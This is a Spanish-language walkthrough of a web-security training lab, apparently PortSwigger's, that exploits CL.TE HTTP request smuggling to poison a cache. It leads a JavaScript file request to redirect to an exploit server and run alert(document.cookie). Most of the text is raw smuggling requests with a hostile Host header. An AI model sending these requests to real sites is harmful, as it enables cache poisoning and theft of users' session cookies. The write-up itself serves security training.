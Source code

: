 ## Exploiting HTTP request smuggling to perform web cache poisoning
### Lab Description
This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

To solve the lab, perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache should alert `document.cookie`.


Primero procedemos a testear si es posibile utilizar nuestras dos cabeceras preferidas:
~~~
POST / HTTP/1.1
Host: Portsqiger-lab
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
~~~
El time out significa que es CL.TE, el front-end está priorizando el content-length y el backend da un time out porque nunca recibe un 0 que indique que la solicitud terminó.
La primera request dió 200, la segunda me dió 404, con esto confirmamos que es vulnerable al pipeling
~~~
POST / HTTP/1.1
Host: 0afa00f403658df58014c11e00550063.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 98
Transfer-Encoding: chunked

0

GET /qwert HTTP/1.1
Content-Length: 3
Content-Type: application/x-www-form-urlencoded

x=
~~~
Ahora como nuestro objetivo es un cache poisoning en toda la página, necesitamos ver si existe un endpoint que cargue una página, es decir que tenga un offsite redirect
~~~
GET /post/next?postId=9 HTTP/1.1
~~~
Y lo hay, así que tan solo tenemos que utilizar la request concatenada a este endpoint que carga el siguiente posteo
Utilizando el host de un sitio malicioso
```
GET /post/next?postId=9 HTTP/1.1
Host: exploit-0ad1002c03f2454882a51a8f017f0067.exploit-server.net/exploit
Content-Length: 3

x=
```
En la pestaña "Resend" obtenemos la respuesta:
```
HTTP/1.1 302 Found
Location: https://exploit-0ad1002c03f2454882a51a8f017f0067.exploit-server.net/exploit/post?postId=10
Set-Cookie: session=dbXLlTEUaPzw2oa6tLp5ZHekkDLNNzBv; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```
Es decir que la request de la víctima se está redirigiendo a la página maliciosa correctamente (lo podemos ver en la cabecera d location). A esto se le llama redireción abierta y puede representar una vulnerabilidad hasta critica
Por lo que tenes una offside redirection exitosa, sin embargo no se esta almacenando, Buscando entre las distintas rutas registradas en HTTP history de nuestro Burpquite, encontramos un GET /resources/js/tracking.js HTTP/1.1 que se carga junto con la ruta del POST, esta ruta tiene una función en texto claro de "document.write" lo que la hace perfecta:
Enviamos la request que carga la imagen hasta que alcance una "age" alta, así durará más en la pantalla:
```
GET /resources/js/tracking.js HTTP/1.1
Host: 0add000703bc4513821c1bd3009000e6.web-security-academy.net
Cookie: session=zZGB8KezpjC5hQQjsKeNceOdQuE98eNk
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0add000703bc4513821c1bd3009000e6.web-security-academy.net/post?postId=10
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1
```

~~~
POST / HTTP/1.1
Host: 0add000703bc4513821c1bd3009000e6.web-security-academy.net
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0add000703bc4513821c1bd3009000e6.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Cookie: session=zZGB8KezpjC5hQQjsKeNceOdQuE98eNk
Sec-Websocket-Key: PI/UOmFb9vGiHi2pUnwLkQ==
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=9 HTTP/1.1
Host: exploit-0ad1002c03f2454882a51a8f017f0067.exploit-server.net
Content-Length: 3

x=
~~~